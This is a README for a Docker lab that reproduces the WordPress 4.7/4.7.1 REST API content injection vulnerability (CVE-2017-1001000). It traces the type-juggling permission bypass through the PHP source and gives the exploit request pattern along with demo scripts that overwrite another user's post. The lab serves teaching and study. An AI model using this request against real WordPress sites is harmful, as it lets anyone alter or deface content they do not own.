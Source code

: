 # docker-wordpress-content-injection

https://www.cvedetails.com/cve/CVE-2017-1001000/

## Install

```bash
docker-compose up

# In another terminal
docker ps | grep dockerwordpresscontentinjection_db
./load_db.sh <mysql-container-id>
```

* Open [http://127.0.0.1:8080/wp-admin/index.php](http://127.0.0.1:8080/wp-admin/index.php)
* Check Wordpress version (should be 4.7 or 4.7.1): W (top left) > About Wordpress
* Play with the API using the scripts `get_posts.sh` and `create_post.sh`

# Exploit

The requests are handled in `wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php`
[line 80](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L80).

The route needs a post id in the url:

```bash
./get_post.sh 10
```

If the id is not numeric, the API returns an error because the url does not match the regex:

```bash
./get_post.sh 10ABC
```

If a query param `id` is specified, its value overrides the one in the url body:

```bash
./get_post_query_param.sh 10 11
# The obtained id is 11 and not 10
```

**But if the query param id is not numeric, no errors are raised:**

```bash
./get_post_query_param.sh 10 11ABC
```

Now, let's take the request `POST /wp-json/wp/v2/posts/10?id=11ABC` and look at
the route to [update a post](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93):

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L93

register_rest_route( $this->namespace, '/' . $this->rest_base . '/(?P<id>[\d]+)', array(
    // ... 
    array(
        'methods'             => WP_REST_Server::EDITABLE,
        'callback'            => array( $this, 'update_item' ),
        'permission_callback' => array( $this, 'update_item_permissions_check' ),
        'args'                => $this->get_endpoint_args_for_item_schema( WP_REST_Server::EDITABLE ),
    ),
    // ...
) );
```

Before performing the update, the function [`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item_permissions_check`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589)
is called:

```php
// wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L589

public function update_item_permissions_check( $request ) {
    // Because we sent the id in the query param, $request['id'] == "11ABC"
    $post = get_post( $request['id'] );
    $post_type = get_post_type_object( $this->post_type );

    // Surprisingly, if $post == null, the function does not return an error
    if ( $post && ! $this->check_update_permission( $post ) ) {
        return new WP_Error( 'rest_cannot_edit', __( 'Sorry, you are not allowed to edit this post.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['author'] ) && get_current_user_id() !== $request['author'] && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_edit_others', __( 'Sorry, you are not allowed to update posts as this user.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! empty( $request['sticky'] ) && ! current_user_can( $post_type->cap->edit_others_posts ) ) {
        return new WP_Error( 'rest_cannot_assign_sticky', __( 'Sorry, you are not allowed to make posts sticky.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    if ( ! $this->check_assign_terms_permission( $request ) ) {
        return new WP_Error( 'rest_cannot_assign_term', __( 'Sorry, you are not allowed to assign the provided terms.' ), array( 'status' => rest_authorization_required_code() ) );
    }
    return true;
}
```

**Surprisingly, if `$post` is null, the function does not return an error.** Let's
give a look at
[`wp-includes/post.php:get_post`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/post.php#L515):

```php
// wp-includes/post.php#L515

function get_post( $post = null, $output = OBJECT, $filter = 'raw' ) {
    // $post == "11ABC"
    if ( empty( $post ) && isset( $GLOBALS['post'] ) )
        // ...
    if ( $post instanceof WP_Post ) {
        // ...
    } elseif ( is_object( $post ) ) {
        // ...
    } else { // As $post is a string, we enter here
        $_post = WP_Post::get_instance( $post );
    }
    // Because `WP_Post::get_instance( $post );` will return `false` (see explanations below)
    // the function returns `null`
    if ( ! $_post )
        return null;
    // ...
}
```

[`wp-includes/class-wp-post.php:WP_Post::get_instance`](https://github.com/Vayel/docker-wordpress-content-injection/blob/145c8df686c1ccf73d136d7a3c9204eeab98272a/wordpress/wp-includes/class-wp-post.php#L210)
will return `false` as `$post_id` is not numeric:

```php
// wp-includes/class-wp-post.php#L210

public static function get_instance( $post_id ) {
    global $wpdb;
    if ( ! is_numeric( $post_id ) || $post_id != floor( $post_id ) || ! $post_id ) {
        return false;
    }
    // ...
}
```

So `get_post` will return `null` and the permission check will pass. Then, the function
[`wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php:update_item`](https://github.com/Vayel/docker-wordpress-content-injection/blob/master/wordpress/wp-includes/rest-api/endpoints/class-wp-rest-posts-controller.php#L622)
will be called with `$request['id'] = "11ABC"`:

```php
public function update_item( $request ) {
    // $request['id'] == "11ABC"
    $id = (int) $request['id'];
    // $id == 11
    // Here, `get_post` does not return `null`
    // Then, we do not enter the `if` which returns an error
    $post = get_post( $id );
    if ( empty( $id ) || empty( $post->ID ) || $this->post_type !== $post->post_type ) {
        return new WP_Error( 'rest_post_invalid_id', __( 'Invalid post ID.' ), array( 'status' => 404 ) );
    }
    // The item will be updated
    // ...
}
```

This time, the function `get_post` is called **with the id cast as an integer**. Due
to PHP [type-juggling](http://php.net/manual/en/language.types.type-juggling.php),
the variable `$id` will be equal to `11`. So `get_post` won't return `null` and `update_item`
won't return an error. **Because we have already
passed the permission check step**, the post with id `11` will be updated
even if it belongs to another user.

To conclude, it is possible for anyone to update any post of id `N` with a request such
as `POST /wp-json/wp/v2/posts/1984?id=N_then_non_numeric_chars`.

## Demo

Make sure Wordpress is running:

```bash
docker-compose up
```

Get the posts of author1:

```bash
./get_posts.sh author1
```

Update a post:

```bash
./update_post.sh 14 mysupercontent author1
# It works
```

Get the posts of author2:

```bash
./get_posts.sh author2
```

Update a post of author2 with author1:

```bash
./update_post.sh 17 mysupercontent author1
# Error: Sorry, you are not allowed to edit this post.
```

Update a post of author2 with author1 and a malicious url:

```bash
./exploit.sh 17 mysupercontent author1
# It works
```
